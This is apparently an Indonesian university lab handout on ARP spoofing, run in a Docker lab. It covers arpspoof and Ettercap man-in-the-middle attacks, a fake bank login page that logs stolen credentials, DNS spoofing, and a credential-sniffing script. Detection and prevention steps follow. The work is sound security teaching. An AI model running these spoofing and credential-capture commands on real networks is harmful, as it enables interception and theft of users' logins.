


# Materi Lengkap Pertemuan 3: L2 Security - ARP Spoofing

## Daftar Isi
1. [Apa itu ARP?](#1-apa-itu-arp)
2. [ARP Spoofing / ARP Poisoning](#2-arp-spoofing--arp-poisoning)
3. [Setup Lab dengan Docker Compose](#3-setup-lab-dengan-docker-compose)
4. [Hands-On: ARP Spoofing dengan arpspoof (dsniff)](#4-hands-on-arp-spoofing-dengan-arpspoof-dsniff)
5. [Hands-On: ARP Spoofing dengan Ettercap](#5-hands-on-arp-spoofing-dengan-ettercap)
6. [Hands-On: DNS Spoofing dengan Web Lokal](#6-hands-on-dns-spoofing-dengan-web-lokal)
7. [Deteksi dan Pencegahan](#7-deteksi-dan-pencegahan)
8. [Latihan Mandiri](#8-latihan-mandiri)
9. [Troubleshooting](#9-troubleshooting)

---

## 1. Apa itu ARP?

### Definisi Sederhana

**ARP (Address Resolution Protocol)** adalah protokol yang digunakan untuk memetakan alamat IP (layer 3) ke alamat MAC (layer 2) dalam jaringan lokal.

### Analogi Sehari-hari

Bayangkan Anda ingin mengirim surat di kompleks perumahan:
- **IP Address** = Nama orang (siapa yang dituju)
- **MAC Address** = Alamat rumah (dimana orang itu tinggal)
- **ARP** = Buku alamat yang menghubungkan nama orang dengan alamat rumahnya

### Cara Kerja ARP Normal



### ARP Table

Setiap komputer menyimpan cache ARP:

```bash
# Lihat ARP table di Windows
arp -a

# Lihat ARP table di Linux/Mac
ip neigh show
# atau
arp -n

Contoh output:
192.168.1.1 dev eth0 lladdr 02:42:c0:a8:01:01 REACHABLE
192.168.1.20 dev eth0 lladdr 02:42:c0:a8:01:14 STALE
```

---

## 2. ARP Spoofing / ARP Poisoning

### Apa itu ARP Spoofing?

**ARP Spoofing** adalah teknik di mana penyerang mengirimkan pesan ARP palsu ke jaringan, sehingga memetakan alamat IP korban ke alamat MAC penyerang.

### Mengapa ARP Rentan?

- **Tidak ada autentikasi**: ARP tidak memverifikasi apakah pesan itu asli
- **Stateless**: Setiap perangkat menerima ARP reply meskipun tidak meminta
- **Cache poisoning**: Perangkat akan memperbarui ARP table-nya dengan informasi baru

### Skenario Serangan



### Apa yang Bisa Dilakukan Penyerang?

1. **Man-in-the-Middle (MITM)**: Menyadap semua komunikasi
2. **Session Hijacking**: Membajak session yang sudah ada
3. **Denial of Service**: Memutus koneksi korban
4. **Password Sniffing**: Menangkap password yang dikirim

---

## 3. Setup Lab dengan Docker Compose (Dengan Web Server Lokal)

### 3.1 File docker-compose.yml

Buat file `docker-compose.yml` di folder `~/netsec-lab`:

```yaml
version: '3.8'

services:
  # Attacker - Kali Linux
  kali-attacker:
    image: kalilinux/kali-rolling
    container_name: kali-attacker
    hostname: attacker
    networks:
      netsec_network:
        ipv4_address: 192.168.1.100
    cap_add:
      - NET_ADMIN
      - NET_RAW
      - SYS_ADMIN
    sysctls:
      - net.ipv4.ip_forward=1
      - net.ipv4.conf.all.forwarding=1
    privileged: true
    stdin_open: true
    tty: true
    volumes:
      - ./shared:/shared
      - ./webpages:/webpages
    command: /bin/bash -c "apt update && apt install -y dsniff ettercap-graphical net-tools tcpdump nano vim curl wget iproute2 arp-scan isc-dhcp-client python3 && tail -f /dev/null"

  # Target 1 - Ubuntu (Korban)
  ubuntu-target:
    image: ubuntu:22.04
    container_name: ubuntu-target
    hostname: target1
    networks:
      netsec_network:
        ipv4_address: 192.168.1.10
    cap_add:
      - NET_ADMIN
      - NET_RAW
    privileged: true
    stdin_open: true
    tty: true
    volumes:
      - ./shared:/shared
    command: /bin/bash -c "apt update && apt install -y net-tools tcpdump curl iputils-ping nano vim iproute2 arp-scan inetutils-tools isc-dhcp-client dnsutils && tail -f /dev/null"

  # Web Server - Apache dengan PHP (Website Lokal)
  webserver:
    image: php:7.4-apache
    container_name: webserver
    hostname: webserver
    networks:
      netsec_network:
        ipv4_address: 192.168.1.200
    volumes:
      - ./webserver/html:/var/www/html
      - ./webserver/logs:/var/log/apache2
    privileged: false
    stdin_open: true
    tty: true
    command: /bin/bash -c "docker-php-ext-install mysqli && apache2-foreground"

  # Web Server Palsu - Untuk DNS Spoofing
  fake-webserver:
    image: php:7.4-apache
    container_name: fake-webserver
    hostname: fake-webserver
    networks:
      netsec_network:
        ipv4_address: 192.168.1.101
    volumes:
      - ./fake-webserver/html:/var/www/html
    privileged: false
    stdin_open: true
    tty: true
    command: /bin/bash -c "apache2-foreground"

  # Router/Gateway
  router:
    image: alpine:latest
    container_name: router
    hostname: router
    networks:
      netsec_network:
        ipv4_address: 192.168.1.1
    cap_add:
      - NET_ADMIN
      - NET_RAW
    sysctls:
      - net.ipv4.ip_forward=1
      - net.ipv4.conf.all.forwarding=1
    privileged: true
    stdin_open: true
    tty: true
    volumes:
      - ./shared:/shared
    command: /bin/sh -c "apk update && apk add iptables iproute2 net-tools tcpdump curl busybox-extras nano vim arp-scan dhcpcd && tail -f /dev/null"

networks:
  netsec_network:
    driver: bridge
    ipam:
      config:
        - subnet: 192.168.1.0/24
          gateway: 192.168.1.254
```

### 3.2 Buat Website Lokal

```bash
# Buat struktur folder
cd ~/netsec-lab
mkdir -p webserver/html webserver/logs fake-webserver/html shared

# Buat website asli (di webserver)
cat > webserver/html/index.html << 'EOF'
<!DOCTYPE html>
<html>
<head>
    <title>Website Bank Lokal</title>
    <style>
        body { font-family: Arial; margin: 40px; }
        .container { max-width: 500px; margin: auto; }
        input { width: 100%; padding: 10px; margin: 5px 0; }
        button { padding: 10px 20px; background: green; color: white; border: none; }
        .warning { color: red; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Bank Lokal - Halaman Login</h1>
        <div class="warning">Website ASLI (IP: 192.168.1.200)</div>
        <form action="login.php" method="POST">
            <input type="text" name="username" placeholder="Username" required><br>
            <input type="password" name="password" placeholder="Password" required><br>
            <button type="submit">Login</button>
        </form>
    </div>
</body>
</html>
EOF

# Buat halaman login handler
cat > webserver/html/login.php << 'EOF'
<?php
$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';

// Simpan log login
$log = date('Y-m-d H:i:s') . " - User: $username - Pass: $password - IP: " . $_SERVER['REMOTE_ADDR'] . "\n";
file_put_contents('/var/log/apache2/login.log', $log, FILE_APPEND);
?>
<!DOCTYPE html>
<html>
<head>
    <title>Login Diproses</title>
    <style>
        body { font-family: Arial; margin: 40px; }
        .container { max-width: 500px; margin: auto; }
        .success { color: green; }
    </style>
</head>
<body>
    <div class="container">
        <h1 class="success">Login Berhasil!</h1>
        <p>Selamat datang, <?php echo htmlspecialchars($username); ?>!</p>
        <p>Ini adalah website ASLI.</p>
        <p><a href="index.html">Kembali</a></p>
    </div>
</body>
</html>
EOF

# Buat website palsu (di fake-webserver)
cat > fake-webserver/html/index.html << 'EOF'
<!DOCTYPE html>
<html>
<head>
    <title>⚠️ Website Bank - PERINGATAN ⚠️</title>
    <style>
        body { font-family: Arial; margin: 40px; background: #ffeeee; }
        .container { max-width: 500px; margin: auto; border: 2px solid red; padding: 20px; }
        input { width: 100%; padding: 10px; margin: 5px 0; }
        button { padding: 10px 20px; background: red; color: white; border: none; }
        .warning { color: red; font-weight: bold; }
        .hidden { display: none; }
    </style>
</head>
<body>
    <div class="container">
        <h1 class="warning">⚠️ PERINGATAN KEAMANAN ⚠️</h1>
        <p>Ini adalah <strong>WEBSITE PALSU</strong> yang dibuat untuk demonstrasi ARP Spoofing!</p>
        <p>IP: 192.168.1.101 (Fake Server)</p>
        <hr>
        <h2>Bank Lokal - Halaman Login</h2>
        <form action="login.php" method="POST">
            <input type="text" name="username" placeholder="Username" required><br>
            <input type="password" name="password" placeholder="Password" required><br>
            <button type="submit">Login (Berbahaya!)</button>
        </form>
    </div>
</body>
</html>
EOF

cat > fake-webserver/html/login.php << 'EOF'
<?php
$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';

// Simpan credential yang dicuri
$log = date('Y-m-d H:i:s') . " - [CURIAN] User: $username - Pass: $password - IP Korban: " . $_SERVER['REMOTE_ADDR'] . "\n";
file_put_contents('/var/www/html/stolen.txt', $log, FILE_APPEND);
?>
<!DOCTYPE html>
<html>
<head>
    <title>Login Diproses</title>
    <style>
        body { font-family: Arial; margin: 40px; background: #ffcccc; }
        .container { max-width: 500px; margin: auto; }
        .stolen { color: red; font-weight: bold; }
    </style>
</head>
<body>
    <div class="container">
        <h1 class="stolen">⚠️ KREDENSIAL ANDA TELAH DICURI ⚠️</h1>
        <p>Username: <?php echo htmlspecialchars($username); ?></p>
        <p>Password: <?php echo htmlspecialchars($password); ?></p>
        <p>Ini adalah DEMONSTRASI ARP Spoofing!</p>
        <p>Dalam skenario nyata, Anda akan diarahkan ke website asli tanpa sadar.</p>
        <p><a href="/stolen.txt">Lihat Log Curian</a></p>
    </div>
</body>
</html>
EOF
```

### 3.3 Setup dan Jalankan Container

```bash
cd ~/netsec-lab

# Jalankan container
docker-compose up -d

# Tunggu semua container siap
docker-compose ps

# Lihat log
docker-compose logs -f
```

### 3.4 Verifikasi Container Berjalan

```bash
# Cek semua container
docker ps

# Output seharusnya:
# - kali-attacker (192.168.1.100)
# - ubuntu-target (192.168.1.10)
# - webserver (192.168.1.200)
# - fake-webserver (192.168.1.101)
# - router (192.168.1.1)
```

### 3.5 Test Website Lokal

**Dari target:**
```bash
# Test akses ke website asli
curl http://192.168.1.200

# Atau buka dengan browser (jika ada GUI)
# http://192.168.1.200
```

**Dari attacker:**
```bash
# Test akses ke fake website
curl http://192.168.1.101
```

### 3.6 Setup Internet Access (Opsional)

Jika ingin akses internet juga:

```bash
# Di router
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

### 3.7 Buka Terminal untuk Setiap Container

**Terminal 1 - Attacker:**
```bash
cd ~/netsec-lab
docker-compose exec kali-attacker bash
```

**Terminal 2 - Target:**
```bash
cd ~/netsec-lab
docker-compose exec ubuntu-target bash
```

**Terminal 3 - Router:**
```bash
cd ~/netsec-lab
docker-compose exec router sh
```

---

## 4. Hands-On: ARP Spoofing dengan arpspoof (dsniff)

### 4.1 Install Tools di Attacker

```bash
# Di attacker
apt update
apt install -y dsniff net-tools tcpdump
```

### 4.2 Kondisi Normal - Sebelum Serangan

**Di target:**
```bash
# Cek ARP table
arp -n

# Akses website asli
curl http://192.168.1.200

# Cek koneksi ke webserver
ping -c 3 192.168.1.200
```

### 4.3 Aktifkan IP Forwarding di Attacker

```bash
# Di attacker
echo 1 > /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward
# Output: 1
```

### 4.4 Mulai ARP Spoofing - Target ke Web Server

**Di attacker, buat 2 terminal:**

**Terminal A - Spoof target (bohongi target bahwa attacker adalah webserver):**
```bash
arpspoof -i eth0 -t 192.168.1.10 192.168.1.200
```

**Terminal B - Spoof webserver (bohongi webserver bahwa attacker adalah target):**
```bash
arpspoof -i eth0 -t 192.168.1.200 192.168.1.10
```

### 4.5 Verifikasi ARP Spoofing Berhasil

**Di target:**
```bash
# Cek ARP table
arp -n | grep 192.168.1.200

# MAC address webserver sekarang seharusnya MAC attacker
# Contoh: 192.168.1.200 ether 02:42:c0:a8:01:64 (MAC attacker)
```

**Di webserver:**
```bash
# Masuk ke webserver
cd ~/netsec-lab
docker-compose exec webserver bash

# Cek ARP table
arp -n | grep 192.168.1.10
# MAC address target sekarang seharusnya MAC attacker
```

### 4.6 Sniffing Traffic Login

**Di attacker (Terminal C):**
```bash
# Sniff HTTP traffic
tcpdump -i eth0 -n -A port 80

# Atau simpan ke file
tcpdump -i eth0 -w /shared/arp-spoof.pcap port 80
```

### 4.7 Simulasi Login dari Target

**Di target:**
```bash
# Login ke website asli (tapi traffic lewat attacker)
curl -X POST http://192.168.1.200/login.php \
  -d "username=alice&password=rahasia123"

# Atau gunakan form di browser
# Buka http://192.168.1.200 di browser (jika ada GUI)
```

**Di attacker (Terminal C):**
```bash
# Akan terlihat POST request dengan credential
# Contoh output:
# POST /login.php HTTP/1.1
# Host: 192.168.1.200
# Content-Type: application/x-www-form-urlencoded
# Content-Length: 33
# 
# username=alice&password=rahasia123
```

### 4.8 Lihat Log di Web Server

**Di webserver:**
```bash
# Cek log login
cat /var/log/apache2/login.log

# Akan terlihat login dari IP attacker (bukan target)
# Karena attacker yang meneruskan traffic
```

---

## 5. Hands-On: ARP Spoofing dengan Ettercap

### 5.1 Install Ettercap

```bash
# Di attacker
apt install -y ettercap-graphical
```

### 5.2 Mode Text-Based Ettercap

```bash
# Jalankan ettercap untuk spoof target ke webserver
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.200//

# Penjelasan:
# -T : Text mode
# -i eth0 : Interface
# -M arp:remote : ARP poisoning mode
# Target: /IP korban// /IP webserver//
```

### 5.3 Melihat Hasil Sniffing

Setelah menjalankan ettercap, akan terlihat:
```
HTTP : 192.168.1.10:54321 -> 192.168.1.200:80
POST /login.php HTTP/1.1
Host: 192.168.1.200
username=alice&password=rahasia123
```

### 5.4 Simpan Hasil Capture

```bash
# Jalankan dengan output ke file
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.200// -w /shared/ettercap.pcap
```

---

## 6. Hands-On: DNS Spoofing dengan Web Lokal

### 6.1 Setup DNS Spoofing

**Di attacker:**

```bash
# Buat file konfigurasi DNS spoofing
cat > /tmp/dns.spoof << 'EOF'
# Arahkan domain ke fake webserver
bank.local 192.168.1.101
secure-bank.local 192.168.1.101
login.bank.local 192.168.1.101
EOF
```

### 6.2 Jalankan Ettercap dengan DNS Spoof

```bash
# Jalankan ettercap dengan plugin DNS spoof
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// -P dns_spoof

# Setelah masuk, aktifkan plugin dns_spoof
# Tekan 'p' → pilih nomor plugin dns_spoof
```

### 6.3 Konfigurasi DNS Spoof via File (Alternatif)

```bash
# Edit file konfigurasi ettercap
nano /etc/ettercap/etter.dns

# Tambahkan:
bank.local A 192.168.1.101
*.bank.local A 192.168.1.101

# Jalankan
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// -P dns_spoof
```

### 6.4 Verifikasi dari Target

**Di target:**
```bash
# Install dnsutils
apt install -y dnsutils

# Cek DNS server
cat /etc/resolv.conf

# Test DNS spoofing
nslookup bank.local
# Seharusnya mengarah ke 192.168.1.101 (fake webserver)

# Ping domain
ping -c 2 bank.local
# Akan ping ke 192.168.1.101

# Buka website dengan domain
curl http://bank.local
# Akan mendapatkan halaman palsu
```

### 6.5 Curi Credential dengan Fake Website

**Di target:**
```bash
# Korban mengira mengakses website asli
curl -X POST http://bank.local/login.php \
  -d "username=bob&password=secret123"
```

**Di fake-webserver:**
```bash
# Lihat credential yang tercuri
cd ~/netsec-lab
docker-compose exec fake-webserver bash
cat /var/www/html/stolen.txt

# Output:
# 2025-02-25 14:30:15 - [CURIAN] User: bob - Pass: secret123 - IP Korban: 192.168.1.10
```

---

## 7. Deteksi dan Pencegahan

### 7.1 Deteksi ARP Spoofing Manual

**Di target, buat script deteksi:**
```bash
cat > /tmp/check_arp.sh << 'EOF'
#!/bin/bash

# Ganti dengan MAC asli webserver
REAL_WEB_MAC="02:42:c0:a8:01:c8"  # MAC webserver asli

while true; do
    CURRENT_MAC=$(arp -n | grep 192.168.1.200 | awk '{print $3}')
    
    if [ "$CURRENT_MAC" != "$REAL_WEB_MAC" ]; then
        echo "$(date): ⚠️ PERINGATAN! ARP Spoofing terdeteksi!"
        echo "Webserver MAC asli: $REAL_WEB_MAC"
        echo "Webserver MAC sekarang: $CURRENT_MAC"
    fi
    
    sleep 3
done
EOF

chmod +x /tmp/check_arp.sh
/tmp/check_arp.sh
```

### 7.2 Deteksi dengan arpwatch

```bash
# Install arpwatch
apt install -y arpwatch

# Jalankan monitoring untuk webserver
arpwatch -i eth0

# Lihat log
tail -f /var/log/syslog | grep arpwatch
```

### 7.3 Pencegahan dengan Static ARP

**Di target:**
```bash
# Tambahkan static ARP untuk webserver
arp -s 192.168.1.200 02:42:c0:a8:01:c8

# Verifikasi
arp -n | grep 192.168.1.200
# Akan ada flag PERMANENT
```

### 7.4 Pencegahan dengan HTTPS Lokal

Untuk website lokal, kita bisa gunakan self-signed certificate:

```bash
# Di webserver, generate sertifikat SSL
docker-compose exec webserver bash
apt update && apt install -y openssl

# Generate self-signed certificate
mkdir -p /etc/ssl/private /etc/ssl/certs
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout /etc/ssl/private/server.key \
  -out /etc/ssl/certs/server.crt \
  -subj "/C=ID/ST=Jakarta/L=Jakarta/O=Bank Lokal/CN=bank.local"

# Konfigurasi Apache untuk HTTPS
a2enmod ssl
a2ensite default-ssl
service apache2 restart
```

---

## 8. Latihan Mandiri

### Latihan 1: ARP Spoofing ke Semua Host

```bash
# Di attacker - spoof semua komunikasi
arpspoof -i eth0 -t 192.168.1.10 192.168.1.200
arpspoof -i eth0 -t 192.168.1.200 192.168.1.10
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10

# Sniff semua traffic
tcpdump -i eth0 -A
```

### Latihan 2: Sniffing Form Data

```bash
# Di attacker, buat filter tcpdump spesifik
tcpdump -i eth0 -A -s 0 'tcp port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'

# Ini akan menangkap HTTP POST method saja
```

### Latihan 3: Script ARP Spoofing dengan Logging

```bash
cat > /tmp/arp_mitm.sh << 'EOF'
#!/bin/bash

TARGET="192.168.1.10"
WEBSERVER="192.168.1.200"
INTERFACE="eth0"
LOGFILE="/shared/credentials.log"

cleanup() {
    echo "Membersihkan..."
    kill $PID1 $PID2 2>/dev/null
    echo 0 > /proc/sys/net/ipv4/ip_forward
    exit
}

trap cleanup INT

echo "Memulai ARP Spoofing MITM"
echo "Target: $TARGET -> $WEBSERVER"
echo "Log: $LOGFILE"

echo 1 > /proc/sys/net/ipv4/ip_forward

arpspoof -i $INTERFACE -t $TARGET $WEBSERVER > /dev/null &
PID1=$!
arpspoof -i $INTERFACE -t $WEBSERVER $TARGET > /dev/null &
PID2=$!

# Sniff dan extract password
tcpdump -i $INTERFACE -A -l port 80 2>/dev/null | while read line; do
    if echo "$line" | grep -q "POST"; then
        echo "$(date): POST Request" >> $LOGFILE
    elif echo "$line" | grep -q "username="; then
        echo "CRED: $line" >> $LOGFILE
        echo "$(date): Credential ditemukan - $line"
    fi
done

wait
EOF

chmod +x /tmp/arp_mitm.sh
/tmp/arp_mitm.sh
```

### Latihan 4: Ettercap Filter untuk Ganti Konten

```bash
# Buat filter untuk memodifikasi response
cat > /tmp/modify.filter << 'EOF'
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "Bank Lokal")) {
        replace("Bank Lokal", "Bank PALSU (DISADAP)");
        msg("Konten dimodifikasi\n");
    }
    if (search(DATA.data, "Login Berhasil")) {
        replace("Login Berhasil", "Login Diproses... (data dicuri)");
        msg("Login message dimodifikasi\n");
    }
}
EOF

# Compile
etterfilter /tmp/modify.filter -o /tmp/modify.ef

# Jalankan
ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.200// -F /tmp/modify.ef
```

### Latihan 5: Monitor ARP Table dengan Python

```bash
cat > /tmp/arp_monitor.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import time
import sys
from datetime import datetime

def get_arp():
    result = subprocess.run(['arp', '-n'], capture_output=True, text=True)
    lines = result.stdout.strip().split('\n')[1:]
    
    arp_table = {}
    for line in lines:
        parts = line.split()
        if len(parts) >= 3:
            ip = parts[0]
            mac = parts[2]
            arp_table[ip] = mac
    return arp_table

def monitor(interval=2):
    print(f"Monitoring ARP table setiap {interval} detik")
    print("-" * 50)
    
    prev_arp = get_arp()
    
    try:
        while True:
            time.sleep(interval)
            current_arp = get_arp()
            
            for ip, mac in current_arp.items():
                if ip in prev_arp and prev_arp[ip] != mac:
                    print(f"[{datetime.now().strftime('%H:%M:%S')}] ⚠️ PERUBAHAN: {ip}")
                    print(f"    Sebelum: {prev_arp[ip]}")
                    print(f"    Sekarang: {mac}")
            
            prev_arp = current_arp
            
    except KeyboardInterrupt:
        print("\nMonitoring dihentikan")

if __name__ == "__main__":
    monitor()
EOF

python3 /tmp/arp_monitor.py
```

### Latihan 6: Test dengan HTTP/HTTPS

```bash
# Di webserver, setup HTTPS sederhana
cd ~/netsec-lab
docker-compose exec webserver bash

# Install openssl
apt update && apt install -y openssl

# Generate self-signed cert
mkdir -p /etc/apache2/ssl
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout /etc/apache2/ssl/server.key \
  -out /etc/apache2/ssl/server.crt \
  -subj "/CN=bank.local"

# Enable SSL
a2enmod ssl
a2ensite default-ssl

# Restart Apache
service apache2 restart

# Test dari target
curl -k https://192.168.1.200
```

### Latihan 7: Cleanup Script Lengkap

```bash
cat > /tmp/cleanup_all.sh << 'EOF'
#!/bin/bash

echo "Membersihkan semua efek serangan..."

# Matikan proses
killall arpspoof 2>/dev/null
killall ettercap 2>/dev/null
killall tcpdump 2>/dev/null

# Matikan IP forwarding
for container in kali-attacker router; do
    docker exec $container sh -c "echo 0 > /proc/sys/net/ipv4/ip_forward" 2>/dev/null
done

# Bersihkan ARP cache di semua container
for container in ubuntu-target ubuntu-target2 webserver fake-webserver; do
    docker exec $container sh -c "ip neigh flush all" 2>/dev/null
done

# Bersihkan iptables di router
docker exec router sh -c "iptables -t nat -F" 2>/dev/null

# Hapus file sementara
rm -f /shared/*.pcap /shared/*.log /tmp/*.ef /tmp/*.filter 2>/dev/null

echo "Selesai! Jaringan kembali normal."
echo "Catatan: ARP cache akan pulih dalam beberapa menit."
EOF

chmod +x /tmp/cleanup_all.sh
/tmp/cleanup_all.sh
```

---

## 9. Troubleshooting

### Masalah: Container tidak bisa saling ping
```bash
# Cek network
docker network ls
docker network inspect netsec_network

# Pastikan semua container terhubung
docker-compose ps
```

### Masalah: Web server tidak bisa diakses
```bash
# Cek log webserver
docker-compose logs webserver

# Test dari dalam container
docker-compose exec webserver curl http://localhost
```

### Masalah: arpspoof command not found
```bash
# Install di attacker
docker-compose exec kali-attacker bash
apt update
apt install -y dsniff
```

### Masalah: IP forwarding tidak aktif
```bash
# Set manual di setiap container
docker exec kali-attacker sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
docker exec router sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
```

### Masalah: MAC address berubah
```bash
# Catat MAC asli setiap container
for container in ubuntu-target webserver fake-webserver router; do
    echo -n "$container: "
    docker exec $container cat /sys/class/net/eth0/address
done
```

### Masalah: Permission denied saat write file
```bash
# Gunakan folder shared yang sudah di-mount
# Semua container bisa akses /shared
```

---

## Ringkasan Perintah Penting

| Fungsi | Perintah |
|--------|----------|
| Start lab | `cd ~/netsec-lab && docker-compose up -d` |
| Stop lab | `docker-compose down` |
| Lihat container | `docker-compose ps` |
| Masuk attacker | `docker-compose exec kali-attacker bash` |
| Masuk target | `docker-compose exec ubuntu-target bash` |
| Masuk webserver | `docker-compose exec webserver bash` |
| Lihat ARP table | `arp -n` |
| ARP spoof | `arpspoof -i eth0 -t 192.168.1.10 192.168.1.200` |
| IP forwarding | `echo 1 > /proc/sys/net/ipv4/ip_forward` |
| Sniff HTTP | `tcpdump -i eth0 -A port 80` |
| Ettercap | `ettercap -T -i eth0 -M arp:remote /192.168.1.10// /192.168.1.200//` |
| DNS spoof | `ettercap -T -i eth0 -M arp:remote // // -P dns_spoof` |
| Static ARP | `arp -s 192.168.1.200 02:42:c0:a8:01:c8` |
| Lihat MAC | `cat /sys/class/net/eth0/address` |
| Cleanup | `/tmp/cleanup_all.sh` |

---

## ⚠️ Catatan Penting

1. **Legalitas**: Praktik ini HANYA untuk pembelajaran di lab sendiri. ARP spoofing di jaringan orang lain adalah ILEGAL.

2. **Website Lokal**: Semua website dalam lab ini (asli dan palsu) dibuat khusus untuk demonstrasi.

3. **Deteksi**: ARP spoofing mudah dideteksi dengan monitoring ARP table.

4. **Pencegahan**: 
   - Gunakan static ARP untuk server penting
   - Gunakan HTTPS meskipun dengan self-signed certificate
   - Monitor perubahan ARP table

5. **Bersih-bersih**: Selalu jalankan cleanup script setelah selesai praktik.

6. **MAC Address**: Catat MAC address asli setiap container untuk deteksi.
